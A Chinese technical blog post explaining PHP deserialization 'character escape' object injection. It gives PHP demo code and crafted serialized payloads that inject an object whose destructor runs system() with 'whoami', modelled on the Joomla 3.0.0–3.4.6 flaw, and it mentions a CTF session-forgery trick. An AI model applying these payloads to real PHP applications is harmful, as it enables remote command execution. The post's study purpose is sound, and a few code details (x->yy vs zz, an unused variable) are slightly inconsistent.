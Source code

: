 ```yaml
---
layout: post
title: 'PHP字符逃逸'
subtitle: 'PHP字符逃逸导致的对象注入'
date: 2021-07-10
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### 漏洞产生原因

序列化的字符串在经过过滤函数不正确的处理而导致对象注入，目前看到都是因为过滤函数放在了serialize函数之后，要是放在序列化之前应该就不会产生这个问题

	?php
	function filter($string){
	  $a = str_replace('x','zz',$string);
	   return $a;
	}
	
	$username = "tr1ple";
	$password = "aaaaax";
	$user = array($username, $password);
	
	echo(serialize($user));
	echo "\n";
	
	$r = filter(serialize($user));
	
	echo($r);
	echo "\n";
	
	var_dump(unserialize($r));
	$a='a:2:{i:0;s:6:"tr1ple";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa";';
	var_dump(unserialize($a));

php特性：

	1.在反序列化时，底层代码是以";"作为字段的分隔，以"}"作为结尾（字符串除外），并且是根据长度判断内容的
	
	2.对类中不存在的属性也会进行反序列化

以上代码就明显存在一个问题，即从序列化后的字符串中明显可以看到经过filter函数以后s:6对应的字符串明显变长了

并且如果对于a:2:{i:0;s:6:"tr1ple";i:1;s:5:"aaaaa";}i:1;s:5:"aaaaa"; 这种字符串而言，也能够正常反序列化，说明php在反序列化的时候只要求一个反序列化字符串块合法即可，当然得是第一个字符串块

以以上代码为例，如果能够利用filter函数这种由一个字符变为两个字符的特性来注入想要反序列化后得到的属性，使其可以逃逸出更多可用的字符串，那么我们就能反序列化得到我们想要的属性

比如此时我们想要让反序列化后第二个字符串为123456，此时我们的payload如果和之前的username长度为a，则filter处理以后可能username就会变成a，此时我们的payload变成了新的注入的属性，此时反序列化后就会得到我们想要的结果，比如a:2:{i:0;s:6:"tr1ple";i:1;s:6:"123456";}是我们想要达到的效果，此时我们想要注入的payload明显为：

";i:1;s:6:"123456";}

可以得到其长度为20

此时我们已经知道过滤的规则为x->yy，即注入一个x可以逃逸出一个字符的空位，那么我们只需要注入20个x即可变成40个y，即可逃逸出20个空位，从而将我们的payload变为反序列化后得到的属性值

	$username = 'tr1plexxxxxxxxxxxxxxxxxxxx";i:1;s:6:"123456";}'; //其中红色就是我们想要注入的属性值 
	$password="aaaaa";
	$user = array($username, $password);
	echo(serialize($user));
	echo "\n";
	
	$r = filter(serialize($user));
	
	echo($r);
	echo "\n";
	var_dump(unserialize($r));

可以看到此时注入属性成功，反序列化后得到的属性即为123456

### 实例分析

joomla3.0.0-3.4.6 对象注入导致的反序列化,以下为参考别人的简易化核心漏洞代码

	<?php
	class evil{
	    public $cmd;
	
	    public function __construct($cmd){
	        $this->cmd = $cmd;
	    }
	
	    public function __destruct(){
	        system($this->cmd);
	    }
	}
	
	class User
	{
	    public $username;
	    public $password;
	
	    public function __construct($username, $password){
	        $this->username = $username;
	        $this->password = $password;
	    }
	
	}
	
	function write($data){
	    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
	    file_put_contents("dbs.txt", $data);
	}
	
	function read(){
	    $data = file_get_contents("dbs.txt");
	    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
	    return $r;
	}
	
	if(file_exists("dbs.txt")){
	    unlink("dbs.txt");  
	}
	
	$username = "tr1ple";
	$password = "A";
	$payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; write(serialize(new User($username, $password))); var_dump(unserialize(read()));

在这里如果想要通过注入对象来实现反序列化则必须在外部对象内进行注入存在的属性，不能在其外部，否则php将不会进行我们注入恶意对象的反序列化

例如此时因为反序列化读取的时候将会将六位字符\0\0\0替换成三位字符chr(0)*chr(0),因此字符串前面的s肯定是固定的，那么s对应的字符串变少以后将会吞掉其他属性的字符，那么如果我们精心算好吞掉的字符长度，并且能够控制被吞掉属性的内容，那么就能够注入对象，从而反序列化其他类

比如如上所示，此时我们要注入的对象为evil，此时username和password的值我们可控，那么我们可以在username中注入\0，来吞掉password的值，比如

	<?php

	$a='\0\0\0';

	echo strlen($a);

	$b=str_replace('\0\0\0', chr(0).'*'.chr(0), $a);

	echo strlen($b);


所以此时首先确定我们要吞掉的字符的长度

O:4:"User":2:{s:8:"username";s:6:"tr1ple";s:8:"password";s:4:"1234";}

正常情况下我们要吞掉 ";s:8:"password";s:4:" 为22位

但是因为注入的对象payload也在password字段，并且长度肯定是>=10的，因此s肯定是两位数，因此这里为22+1=23位字符

因为是6->3，因此每次添加一组\0\0\0能多吞掉3个字符，因此需要肯定都是3的倍数

因此我们假如这里构造username为\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0 

则经过read函数处理后长度将变为24

即此时能够多吞掉24个字符，为了不让其吞掉payload，我们可以填充1位字符A，即令password的值为A+payload即可

	<?php
	class evil{
	    public $cmd;
	
	    public function __construct($cmd){
	        $this->cmd = $cmd;
	    }
	
	    public function __destruct(){
	        system($this->cmd);
	    }
	}
	
	class User
	{
	    public $username;
	    public $password;
	
	    public function __construct($username, $password){
	        $this->username = $username;
	        $this->password = $password;
	    }
	
	}
	
	function write($data){
	    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
	    file_put_contents("dbs.txt", $data);
	}
	
	function read(){
	    $data = file_get_contents("dbs.txt");
	    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
	    return $r;
	}
	
	if(file_exists("dbs.txt")){
	    unlink("dbs.txt");  
	}
	
	$username = "\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0";
	$password = "A";
	$payload = '";s:8:"password";O:4:"evil":1:{s:3:"cmd";s:6:"whoami";}'; $shellcode=$password.$payload; write(serialize(new User($username, $password))); var_dump(unserialize(read()));

执行结果如上图所示，将成功反序列化password属性所对应的值，其值即为我们注入的对象，整个过程也容易理解，就是吞掉后面的属性来注入属性，那么达到攻击有以下要求：

> 1.相邻两个属性的值是我们可以控制的

> 2.前一个属性的s长度可以发生变化，变长变短都可以，变短的话可以吞掉后面相邻属性的值，然后在相邻属性中注入新的对象，如果边长则可以直接在该属性中注入对象来达到反序列化

比如XNUCA2018 hardphp就考察了一个这个相关的trick

这里就出现了用前面的data在反序列化时向后吞一位字符，从而可以导致吞掉后面的普通用户的username字段，而在username字段可以放上我们想要伪造的username，从而达到伪造session的目的

参考
！[https://www.cnblogs.com/magic-zero/p/9525842.html](https://www.cnblogs.com/magic-zero/p/9525842.html)
![https://github.com/wonderkun/CTF_web/tree/master/web400-12](https://github.com/wonderkun/CTF_web/tree/master/web400-12)